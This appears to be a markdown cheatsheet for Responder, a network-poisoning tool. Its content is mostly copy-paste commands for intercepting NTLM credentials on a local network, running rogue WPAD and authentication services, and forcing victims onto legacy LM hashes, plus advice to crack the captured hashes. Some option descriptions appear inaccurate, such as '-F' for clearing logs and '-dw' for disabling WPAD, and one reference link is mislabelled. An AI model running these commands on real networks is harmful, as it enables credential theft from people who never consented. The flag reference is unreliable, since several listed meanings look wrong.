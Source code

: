 #Tool #RED #TTAD 
# Responder Cheatsheet 🕵️‍♂️🔗

Welcome to the **Responder Cheatsheet**! Responder is a powerful tool used for capturing network credentials and performing Man-in-the-Middle (MITM) attacks in internal networks. This guide will help you unleash Responder’s full potential! 🚀

---

## 🌟 What is Responder?
**Responder** is a tool for exploiting network services like LLMNR, NBT-NS, and MDNS to intercept network authentication requests. It is commonly used for network penetration testing.

### 🛠 Features:
- Capture NTLM hashes.
- Perform MITM attacks.
- Redirect SMB and HTTP authentication requests.
- Lightweight and easy to use.

---

## 🧰 Common Commands

### 🔍 Start Responder
```bash
sudo responder -I eth0
```
Start Responder on a specific network interface.

### 📡 Enable Specific Services
```bash
sudo responder -I eth0 -w -r -f
```
Enable WPAD, rogue authentication, and fingerprinting services.

### 🔒 Disable Specific Services
```bash
sudo responder -I eth0 -dw
```
Disable WPAD while running Responder.

### 📜 Save Logs to a Custom Directory
```bash
sudo responder -I eth0 -l /path/to/logs
```
Specify a custom directory to save log files.

---

## ⚙️ Advanced Usage

### 🌐 Analyze Network Traffic Only
```bash
sudo responder -I eth0 -A
```
Run Responder in Analyze mode to passively monitor traffic.

### 🚀 Redirect Authentication Requests
```bash
sudo responder -I eth0 --lm
```
Force victims to authenticate using legacy LM hashes.

### 📂 Specify Custom Responder Config File
```bash
sudo responder -I eth0 -c /path/to/Responder.conf
```
Use a custom configuration file for advanced customization.

### 🧹 Clear Log Files
```bash
sudo responder -I eth0 -F
```
Delete all old log files before starting.

---

## 📋 Handy Options

| Option          | Description                                             |
|-----------------|---------------------------------------------------------|
| `-I`            | Specify the network interface to listen on              |
| `-A`            | Analyze mode (no rogue responses)                      |
| `-w`            | Enable WPAD rogue authentication                       |
| `-r`            | Enable rogue authentication                            |
| `-f`            | Fingerprint hosts                                      |
| `-d`            | Disable specific services (e.g., WPAD)                 |
| `-c`            | Specify custom Responder config file                   |
| `-F`            | Clear log files                                        |
| `-l`            | Save logs to a specific directory                      |
| `--lm`          | Force LM authentication                                |

---

## 🌐 Example Scenarios

### Scenario 1: Basic Credential Capture
```bash
sudo responder -I eth0
```
Intercept and capture credentials on the local network.

### Scenario 2: Passive Traffic Analysis
```bash
sudo responder -I eth0 -A
```
Analyze network traffic without sending rogue responses.

### Scenario 3: Custom Configuration
```bash
sudo responder -I eth0 -c /path/to/custom.conf
```
Run Responder with a custom configuration file.

---

## 🚀 Pro Tips

### 1️⃣ Combine with Crack Tools
After capturing hashes, use tools like **Hashcat** or **John the Ripper** to crack them.

### 2️⃣ Disable Unnecessary Services
Reduce noise by disabling unused Responder services, such as WPAD (`-dw`).

### 3️⃣ Automate Responder Logs
Automate the parsing of Responder logs to streamline post-capture analysis.

---

## 📚 References
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [LLMNR and NBT-NS Exploitation Guide](https://owasp.org/www-project-vulnerable-web-applications-directory/)

---

✨ **Copy, paste, and dominate network recon with Responder!** ✨
